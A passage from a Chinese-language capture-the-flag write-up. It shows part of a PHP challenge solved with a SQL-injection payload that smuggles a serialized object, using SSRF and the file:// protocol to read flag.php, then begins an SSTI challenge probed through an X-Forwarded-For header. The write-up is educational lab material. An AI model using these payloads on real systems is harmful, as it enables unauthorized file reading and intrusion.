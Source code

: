 ```php
        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

> 通过get获得指定的URL，设置curl 参数，并将指定URL的内容返回，只要返回内容不为404即可

最后的payload

```
no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:2:"11";s:3:"age";i:11;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

利用SSRF漏洞和file协议，返回flag.php的内容

![image-20240202220349663](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240202220349663.png)

base64解码即可

## [BJDCTF2020]The mystery of ip

> SSTI（Server-Side Template Injection）服务端模板注入主要是 Python 的一些框架，如  jinja2、mako、tornado、django，PHP 框架 smarty、twig，Java 框架 jade、velocity  等等使用渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控

![2916285-20220817093258173-1632680559](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/2916285-20220817093258173-1632680559.png)

查看hint.php

![image-20240203203551765](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240203203551765.png)

猜测和XFF有关

构造语句

```
X-Forwarded-For: 127.0.0.1
```

发现页面也变了，猜测存在ssti注入

根据上面的图进行测试
